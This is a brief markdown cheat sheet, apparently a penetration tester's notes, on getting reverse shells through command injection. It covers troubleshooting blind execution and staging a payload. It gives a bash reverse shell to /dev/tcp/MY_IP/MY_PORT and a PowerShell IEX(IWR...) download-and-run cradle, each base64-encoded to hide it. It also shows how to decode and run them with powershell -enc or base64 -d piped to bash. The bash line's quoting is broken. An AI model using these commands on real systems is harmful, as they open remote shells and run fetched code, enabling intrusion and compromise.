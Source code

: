 # general methodology for sending shells

> troubleshooting
```sh
verify command exectution with
	'simple command'
	'tcpdump + ping'

try supplying full path to files/binaries ( blind )

stage the shell into 2 (requires write priv somewhere on system)
	send
	detonate

```

> encoding payloads
```sh
windows
	echo -n 'IEX(IWR....)' | iconv -t UTF-16LE | base64 -w 0
linux
	echo -n 'bash -i >& /dev/tcp/MY_IP/MY_PORT' 0>&1' | base64
```

> detonating encoded payloads
```sh
powershell -enc 'BASE_64_PAYLOAD'
# 
echo -n 'BASE_64_PAYLOAD' | base64 -d | bash 		
# note "bash -c" not necessary on this one, already in bash context
```

